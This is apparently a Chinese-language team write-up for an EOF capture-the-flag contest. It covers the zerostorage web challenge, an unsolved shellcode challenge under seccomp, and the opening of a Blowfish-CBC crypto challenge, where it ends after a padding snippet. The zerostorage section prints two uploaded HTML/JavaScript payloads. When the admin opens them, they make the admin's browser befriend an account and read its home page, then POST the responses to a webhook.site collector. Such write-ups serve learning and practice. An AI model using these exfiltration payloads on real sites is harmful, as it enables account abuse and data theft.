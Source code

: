 ###### tags: `ctf`
# Final write_up

## ID
給我幅累格(李承祐、李柏諺、林文郁、劉其萱)

## zerostorage Flag_A

本題因為有所samsite，所以要只能從自己的同源網站才能接收到cookie，我在第一天解這題的時候，是用111這個帳號，密碼也是111，本題是要成為好友之後，才能看到好友的資料，原本是送document.cookie，但是好像收不到，所以似乎不是這樣解? 但是第三天我發現已經跟admin變成朋友了，可能我的111帳號被盜了，或是有其他已經成為好友的人把我加 成好友了，然後就送出上面的javascript，然後命名成.html上傳到server，再餵生成的網址給我們的admin，admin點下去後就會觸發js，就可以加其他人好友了~
```htmlmixed=
<script>
	fetch('http://zero-storage-eof-ctf.csie.org:1310/befriend?friend_name=111')
	.then(response => response.text())
	.then(data => fetch(
    'https://webhook.site/e5738207-bd53-4ac3-bbc3-782718d55768'
    ,{method:'POST', body:data}));
</script>
```
可以看到我可以讓別人變成admin的朋友
![](https://i.imgur.com/TFzXJ63.png)
之後在使用以下的script，去看admin的主頁，就可以看到admin的filename~
```htmlmixed=
<script>
	fetch('http://zero-storage-eof-ctf.csie.org:1310/home')
	.then(response => response.text())
	.then(data => fetch(
    'https://webhook.site/e5738207-bd53-4ac3-bbc3-782718d55768'
    ,{method:'POST', body:data}));
</script>
```
可以看到回傳的filename是masAAkiXXX.txt
![](https://i.imgur.com/MNKO4cI.png)
因為已經是朋友了，所以就直接去看這個txt就可以看到flag了~
![](https://i.imgur.com/HTpfGcH.png)


## EDUshell
本題的洞是再exec那有一大段mmap會去生成一大段memory並且可以wrx裡面的指令，那一看就知道是要我們插shellcode去拿flag，而這題的flag會被loadflag到程式內的一段bss中，之後馬上call exec我們的shellcode去執行，原本想說要用write去把那段位置的東西拿出來，直接stout印出來，但似乎seccomp有鎖write的sys_call，好像不能這樣解，所以就卡住了，後來有想到去rbx把pie的address leak出來後，直接把所有的ascii都寫進去，再暴力去一一比對爆破，但沒在能間內做出這題出來。

## Chatroom
1. 首先仔細看source code，可以知道是用Blowfish的CBC模式加密，而且padding方式是Byte都補\x00
```python=
def pad(m: bytes):
    padlen = 8 - len(m) % 8
    return m + bytes([0] * padlen)
```
